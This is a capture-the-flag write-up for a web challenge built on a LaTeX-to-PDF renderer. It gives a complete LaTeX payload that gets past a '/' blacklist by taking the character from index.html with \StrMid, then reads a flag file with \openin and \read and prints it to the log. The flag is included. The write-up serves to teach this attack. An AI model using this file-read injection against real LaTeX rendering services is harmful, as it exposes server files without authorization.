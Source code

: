 # Richard Simmons: Sweatin' in LaTeX
### Category: Web Exploitation
### Author: James Lowther (Articuler)

## Writeup
The website appears to be a renderer for LaTeX code. Writing LaTex and clicking "Generate PDF" gives a link to a rendered PDf. 

1. Looking at the source HTML indicates that we need to read the flag from a file found in `/sweatin/to/the/oldies/flag.txt`.
2. LaTeX has the ability to read files, however certain strings have been blacklisted. Most notably, `/` has been blacklisted making it challenging to create the path to read the file.
3. The `/` character however can be isolated from `index.html` using the `\StrMid` function from the `xstring` package.
4. Using this we can build the following LaTeX code that will read build the path and read the flag:
```
\documentclass{minimal}
\usepackage{xstring}

\def\a{sweatin}
\def\b{to}
\def\c{the}
\def\d{oldies}
\def\e{flag.txt}

\newread\file
\immediate\openin\file=index.html
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\StrMid{\fileline}{43}{43}[\s]
\immediate\message{\s}
\immediate\closein\file

\immediate\openin\file=\s\a\s\b\s\c\s\d\s\e
\loop\unless\ifeof\file
    \read\file to\fileline
    \message{\fileline}
\repeat
\closein\file

\begin{document}
\end{document} 
```

The flag can be found in the returned LOG data.

## Flag
### magpie{r1ch4rd_l0v35_t0_5w34t}